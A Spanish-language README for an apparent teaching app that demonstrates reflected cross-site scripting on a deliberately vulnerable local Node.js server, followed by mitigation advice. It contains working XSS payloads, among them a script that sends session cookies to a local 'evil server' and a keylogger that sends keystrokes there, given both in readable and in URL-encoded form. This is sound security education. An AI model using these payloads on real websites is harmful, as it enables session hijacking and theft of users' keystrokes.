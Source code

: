 # Cross-site Scripting (XSS)

App ejemplo de la vulnerabilidad en acción

## Requerimientos

*  [Node.js](https://nodejs.org/en/) - (LTS or superior) 

* Para Linux and Mac - usar [nvm](https://github.com/creationix/nvm) para instalar Node

*  [Git](https://git-scm.com/downloads)

## Instalación

Clonar el repositorio:

```bash
git clone https://github.com/ezequielsoler/xss-example.git
```

Ingresar al repositorio:

```bash
cd xss-example
```

Instalar las dependencia usando NPM:

```bash
npm install
```

Correr de forma local el servidor usando Node:

```bash
node server.js
```

Si todo salió bien, deberías ver el mensaje: `Server listening at localhost:3000` y al ingresar con tu navegador a  [localhost:3000](http://localhost:3000/) podrás ver la página.

## ¿Qué es XSS?

Cross-site scripting (XSS) es una vulnerabilidad de seguridad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Estos ataques tienen éxito si la aplicación web no emplea suficiente validación o codificación.

La variedad de ataques basados en XSS es casi ilimitado. pero comúnmente incluyen la transmisión de datos privados como cookies u otra información de sesión al atacante, la redirección de la víctima a una página web controlada por el atacante o la realización de otras operaciones maliciosas en el equipo del usuario bajo la apariencia de un sitio vulnerable.

Más info en [OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

## Prueba de concepto

Copia y pega la siguiente URL en tu navegador:

```
http://localhost:3000/?q=%3Cimg%20src=%22does-not-exist%22%20onerror=%22alert(%27pwned!%27)%22%3E

```

Si logras ver un alert con el mensaje "pwned" ya tienes a una victima 😈

Nota: puedes usar el método `encodeURIComponent` para 'encodear' el JS a inyectar y sumarlo a la url usando la consola de tu navegador (F12) ejemplo:

```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'pwned!\')">');
```

## Explotación

Esta aplicación genera una cookie llamada `connect.sid`. Esta es una cookie de sesión establecida por nuestro servidor web local. Haciendo uso de la vulenrabilidad XSS podemos recuperarla de la siguiente forma:

```html
<img  src="does-not-exist"  onerror="alert(document.cookie)">
```

Copia y pega la siguiente URL en tu navegador:

```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E
```

Si tienes éxito, deberías ver el contenido de la cookie de sesión en una ventana emergente.

Pero, si quicieramos robar esa cookie para poder tener una sesión de la victima ¿cómo podríasmos hacerlo?

Para continuar, abre otra terminal e inicia el siguiente comando para levantar el servidor del atacante:

```bash
node evil-server.js
```

El siguiente paso será inyectar el siguiente código:

```html
<img  src="does-not-exist"  onerror="var  img  =  document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```

Copia y pega la siguiente URL en tu navegador:

```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E

```

Si en la terminal del servidor atacante puedes ver el valor de la cookie el ataque fue efectivo!

Aquí puedes ver el código de forma más lejible que estamos inyectando

```js
var  img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```

¿Qué otra maldad podemos hacer?

Porqué no un keylogger, es decir un script que envíe a nuestro servidor atacante las teclas precionadas por la victima.

Este sería el código:

```js
var  timeout;
var  buffer = '';

document.querySelector('body').addEventListener('keypress', function(event) {
if (event.which !== 0) {

clearTimeout(timeout);

buffer += String.fromCharCode(event.which);
timeout = setTimeout(function() {
var  xhr = new  XMLHttpRequest();
var  uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);

xhr.open('GET', uri);
xhr.send();
buffer = '';
}, 400);
}
});

```

El payload sería:

```html
<img  src="does-not-exist"  onerror="var  timeout; var  buffer  = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

Copia y pega la siguiente URL en tu navegador:

```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E
```

## Mitigación

En esta app de ejemplo, la vulnerabilidad XSS se debe a la inserción de HTML inseguro ("sin escapar") en la página.

La app está tomando el valor de `q` y lo está insertando como HTML dentro del placeholder `$search$` y dado que HTML permite que JavaScript se ejecute en línea a través de varios atributos diferentes, esto brinda una buena oportunidad para XSS.

Hay una serie de técnicas que podemos utilizar para prevenir esta vulnerabilidad XSS en particular.

Una de las soluciones más simples para este caso en particular es indicarle al navegador que solo ejecute código JavaScript desde archivos fuente en el mismo dominio. Para hacer esto, agregamos una metaetiqueta especial al encabezado de nuestro documento HTML:

```
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```

Esto no permitirá que se ejecute JavaScript en línea por lo que toda lógica JS deberá estar en un archivo separado del documento HTML (así debería ser ¿no?)

La mejor solucón es tener control y garantizar que los inputs que viajan del cliente al servidor sean correctamente validados, en este caso particular con sólo "escapar" el texto de la búsqueda evitamos la vulnerabilidad, para esto podemos usar librerías especializadas como [express-validator](https://express-validator.github.io/docs/) o [validator.js](https://github.com/validatorjs/validator.js/) 



